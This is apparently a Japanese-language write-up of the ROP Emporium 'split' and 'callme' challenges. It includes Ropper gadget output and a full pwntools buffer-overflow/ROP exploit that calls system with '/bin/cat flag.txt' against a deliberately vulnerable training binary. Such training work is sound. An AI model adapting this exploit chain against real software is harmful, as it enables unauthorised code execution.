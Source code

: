 ```
$ropper -f ./split
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
(...snip...)
0x00000000004007c3: pop rdi; ret; 
(...snip...)
```

```
#!/usr/bin/env python3

from pwn import *

FILE = './split'

def exploit():
    # setup
    context.update(arch='amd64', os='linux')
    conn = process(FILE)

    # making a payload
    payload  = b''
    payload += b'A' * 0x28
    payload += p64(0x004007c3) # pop rdi; ret
    payload += p64(0x00601060) # '/bin/cat flag.txt'
    payload += p64(0x0040074b) # system

    # exploit
    conn.recvuntil(b'>')
    conn.sendline(payload)
    conn.interactive()
    return

if __name__ == '__main__':
    exploit()
```


## Challenge 3 callme

[問題へのリンク](https://ropemporium.com/challenge/callme.html)

Buffer Overflowの脆弱性とガジェットを利用して先程と同じように問題を解くが、注意書きに以下のことが書いてある。

- `callme_one`、`callme_two`、`callme_three`の順番で関数を呼ぶ
- これらの関数はいずれも3つの引数を取り、64ビットの場合第一引数から順番に`0xdeadbeefdeadbeef`、`0xcafebabecafebabe`、`0xd00df00dd00df00d`を指定する

関数が呼ばれる際、引数は第一から順番に`rdi`、`rsi`、`rdx`の3つのレジスタに格納する必要があるのでRopperでガジェットを探す。

```
$ropper -f ./callme
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
(...snip...)
0x000000000040093c: pop rdi; pop rsi; pop rdx; ret; 
(...snip...)
```
